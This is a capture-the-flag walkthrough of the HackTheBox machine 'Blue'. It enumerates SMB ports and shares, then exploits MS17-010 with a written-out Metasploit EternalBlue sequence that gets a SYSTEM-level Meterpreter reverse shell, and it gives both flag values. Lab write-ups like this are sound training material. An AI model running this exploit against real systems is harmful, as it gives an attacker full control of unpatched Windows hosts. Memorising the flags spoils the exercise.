





# HackTheBox Walkthrough - Machine: Blue

**Target IP**: 10.129.114.255  
**Difficulty**: Easy  
**Objective**: Exploit SMB vulnerability (MS17-010) to gain system access and retrieve user and root flags.

---

## 🧭 Enumeration

### 🔍 Task 1: How many open TCP ports are listening on Blue?  
**Answer**: `3`  


> Exclude 5-digit ephemeral ports  
```bash
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
```

---

### 🔍 Task 2: What is the hostname of Blue?  
**Answer**: `HARIS-PC`  
> Found in Nmap Service Info

---

### 🖥️ Task 3: What operating system is running on the target machine?  
**Answer**: `windows 7`  
> From Nmap: `Windows 7 Professional 7601 Service Pack 1`

---

### 📁 Task 4: How many SMB shares are available on Blue?  
**Answer**: `5`  
```bash
smbclient -L 10.129.114.255
```


```
ADMIN$  
C$  
IPC$  
Share  
Users
```

---

### 🛡️ Task 5: What 2017 Microsoft Security Bulletin describes SMB RCE?  
**Answer**: `MS17-010`  


---

### 🐛 Task 6 (Optional): Famous malware using MS17-010?  
**Answer**: `WannaCry`  


---

### 💥 Task 7: What user do you get execution with when exploiting MS17-010?  
**Answer**: `NT AUTHORITY\SYSTEM`  

> Obtained via Metasploit EternalBlue module:  


```bash
search eternalblue
use 0
set RHOSTS 10.129.114.255
set LHOST 10.10.14.99
run
```


> Meterpreter output:
```bash
getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## 🧑‍💻 Submit User Flag  
**Flag Path**: `C:\Users\haris\Desktop\user.txt`  
**Answer**: `a4498ab0e70b149c6712ea6e0a72c6bd`

---

## 👑 Submit Root Flag  
**Flag Path**: `C:\Users\Administrator\Desktop\root.txt`  
**Answer**: `cf8f5445e61e74896492921825beb086`

---
